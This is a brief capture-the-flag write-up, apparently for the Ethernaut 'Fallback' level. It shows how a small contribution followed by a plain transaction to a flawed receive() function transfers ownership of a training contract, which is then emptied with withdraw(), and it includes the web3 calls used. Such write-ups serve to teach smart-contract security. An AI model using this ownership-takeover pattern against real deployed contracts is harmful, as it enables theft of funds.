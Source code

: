 # Level 1: Fallback

## Level objectives:
1. Claim ownership of contract.
2. Drain contract.

## Steps:
- To claim ownership, I can either send eth to the `contribute()` function until I surpass 1000 * 1 Ether, or send eth to the contract's fallback function, triggering the faulty `receive()` function that sets `owner = msg.sender`.
- To send eth to the fallback function, `contribution[msg.sender] > 0`.
- So I first send minimal eth to the `contribute()` function, to get my name in the hat.
```sol
contract.contribute.sendTransaction({   
  from: "0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4",
  value: web3.utils.toWei('0.0000001', 'ether')
});
```
- Then send eth to the fallback function to claim ownership.
```sol
contract.sendTransaction({   
  from: "0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4",
  value: web3.utils.toWei('0.0000001', 'ether')
});
```
- Verified by calling `contract.owner()`.
- Now  I call the `withdraw()` function to take all the eth in the contract.

